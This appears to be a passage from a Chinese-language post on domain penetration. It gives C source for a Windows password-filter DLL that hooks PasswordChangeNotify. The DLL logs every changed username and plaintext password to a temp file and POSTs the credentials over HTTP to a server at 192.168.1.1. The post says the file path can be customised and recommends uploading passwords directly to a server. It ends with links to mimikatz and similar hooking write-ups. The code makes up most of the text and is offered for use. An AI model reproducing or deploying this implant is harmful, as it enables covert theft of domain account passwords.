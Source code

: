 ![](https://gitee.com/fuli009/images/raw/master/public/20210906084527.png)![](https://gitee.com/fuli009/images/raw/master/public/20210906084528.png)

当然存储文件位置和类型可以自定义,只需更改HookPasswordChange.cpp文件。

![](https://gitee.com/fuli009/images/raw/master/public/20210906084529.png)

如果觉得仍然不方便,希望直接将密码上传到服务器,可以使用http协议发送。

    
    
    #include <windows.h>#include <stdio.h>#include <WinInet.h>#include <ntsecapi.h>void writeToLog(const char* szString){    FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");    if (NULL == pFile)    {        return;    }    fprintf(pFile, "%s\r\n", szString);    fclose(pFile);    return;}// Default DllMain implementationBOOL APIENTRY DllMain( HANDLE hModule,                        DWORD  ul_reason_for_call,                        LPVOID lpReserved                     ){    OutputDebugString(L"DllMain");    switch (ul_reason_for_call)    {        case DLL_PROCESS_ATTACH:        case DLL_THREAD_ATTACH:        case DLL_THREAD_DETACH:        case DLL_PROCESS_DETACH:            break;    }    return TRUE;}BOOLEAN __stdcall InitializeChangeNotify(void){    OutputDebugString(L"InitializeChangeNotify");    writeToLog("InitializeChangeNotify()");    return TRUE;}BOOLEAN __stdcall PasswordFilter(    PUNICODE_STRING AccountName,    PUNICODE_STRING FullName,    PUNICODE_STRING Password,    BOOLEAN SetOperation ){    OutputDebugString(L"PasswordFilter");    return TRUE;}NTSTATUS __stdcall PasswordChangeNotify(    PUNICODE_STRING UserName,    ULONG RelativeId,    PUNICODE_STRING NewPassword ){  FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");  //HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);    HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);    HINTERNET hSession = InternetConnect(hInternet,L"192.168.1.1",80,NULL,NULL,INTERNET_SERVICE_HTTP ,0,0);    HINTERNET hReq = HttpOpenRequest(hSession,L"POST",L"/",NULL,NULL,NULL,0,0);    char* pBuf="SomeData";    OutputDebugString(L"PasswordChangeNotify");    if (NULL == pFile)    {        return;    }    fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer,NewPassword->Buffer);  fclose(pFile);    InternetSetOption(hSession,INTERNET_OPTION_USERNAME,UserName->Buffer,UserName->Length/2);    InternetSetOption(hSession,INTERNET_OPTION_PASSWORD,NewPassword->Buffer,NewPassword->Length/2);    HttpSendRequest(hReq,NULL,0,pBuf,strlen(pBuf));    return 0;}

## ![](https://gitee.com/fuli009/images/raw/master/public/20210906084530.png)

##  **  
**

##  **推荐阅读**

https://blog.carnal0wnage.com/2013/09/stealing-passwords-every-time-they.html

https://github.com/gentilkiwi/mimikatz/blob/bb371c2acba397b4006a6cddc0f9ce2b5958017b/mimilib/kssp.c#L21

https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Security%20Support%20Provider.html

https://paper.seebug.org/papers/Archive/drops2/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Hook%20PasswordChangeNotify.html
